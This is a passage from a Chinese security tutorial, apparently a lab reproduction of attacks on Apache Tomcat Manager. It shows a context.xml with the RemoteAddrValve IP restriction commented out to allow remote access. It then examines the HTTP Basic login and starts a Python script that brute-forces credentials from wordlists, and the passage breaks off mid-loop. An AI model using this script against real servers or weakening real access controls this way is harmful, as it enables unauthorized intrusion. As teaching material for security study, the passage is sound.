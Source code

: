 在上面的示例中，配置了一个用户名和密码都是tomcat的用户，并且拥有了所有的权限，然而仅仅配置这些还是不够的，因为Tomcat Manager 只允许本地访问，直接访问将会出现403报错，于是还需要将webapps/manager/META-INF/context.xml配置里面的ip限制注释掉，如  
```
<?xml version="1.0" encoding="UTF-8"?>
<!--  Licensed to the Apache Software Foundation (ASF) under one or more  contributor license agreements.  See the NOTICE file distributed with  this work for additional information regarding copyright ownership.  The ASF licenses this file to You under the Apache License, Version 2.0  (the "License"); you may not use this file except in compliance with  the License.  You may obtain a copy of the License at      http://www.apache.org/licenses/LICENSE-2.0  Unless required by applicable law or agreed to in writing, software  distributed under the License is distributed on an "AS IS" BASIS,  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.  See the License for the specific language governing permissions and  limitations under the License.-->
<Context antiResourceLocking="false" privileged="true" >
  <!-- <CookieProcessor className="org.apache.tomcat.util.http.Rfc6265CookieProcessor"                   sameSiteCookies="strict" /> -->
  <!-- <Valve className="org.apache.catalina.valves.RemoteAddrValve"         allow="127\.\d+\.\d+\.\d+|::1|0:0:0:0:0:0:0:1" /> -->
  <!-- <Manager sessionAttributeValueClassNameFilter="java\.lang\.(?:Boolean|Integer|Long|Number|String)|org\.apache\.catalina\.filters\.CsrfPreventionFilter\$LruCache(?:\$1)?|java\.util\.(?:Linked)?HashMap"/> -->
</Context>

```  
  
此时就可以访问Tomcat Manager并进行密码爆破和war包部署了  
#### 账户爆破  
  
在点击tomcat的Manager App会进入到登入界面  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9bOzaictich6TJV0rclZlxskw28fUAeg2LezSoT71Re1AgxIOcZ5ooPdZttsYLevsEWcHUp1fc0ONrAnHYTViaPww/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9bOzaictich6TJV0rclZlxskw28fUAeg2L7X3QxgtdUvMl3SPQFXZgI41R5nLSxLrFMiaVIibiaKoQs8jtAAHjxwBxg/640?wx_fmt=png&from=appmsg "")  
  
抓一下包，看一下账户和密码的发送方式  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9bOzaictich6TJV0rclZlxskw28fUAeg2LYKfgVGV1nWrKibTHiaMyxhalBRN1OuHAeOJkoWAKFneX0x5FVjagolQg/640?wx_fmt=png&from=appmsg "")  
  
可以看出来，是HTTP Basic认证，账户和密码的格式为：Authorization: Basic base64(username:passwd)，如果账户和密码错误的话，会返回401状态码，如果账户和密码都正确，那么返回状态码为200，此时假装我们不知道账户和密码来进行复现一下攻击过程
于是我写了一个爆破脚本，如下：  
```
import base64  
  
import requests  
  
  
def blast_passwd(url):  
 headers={  
 "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0",  
 "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",  
 "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",  
 "Accept-Encoding": "gzip, deflate",  
 "Connection": "keep-alive",  
 "Upgrade-Insecure-Requests": "1",  
 "Authorization": "Basic "  
 }  
 with open("username.txt","r") as f:  
  usernames=f.readlines()  
 with open("passwd.txt","r") as f:  
  passwds=f.readlines()  
 proxies={"http":"127.0.0.1:8083"}  
 for name in usernames:  
  for passwd in passwds:  
```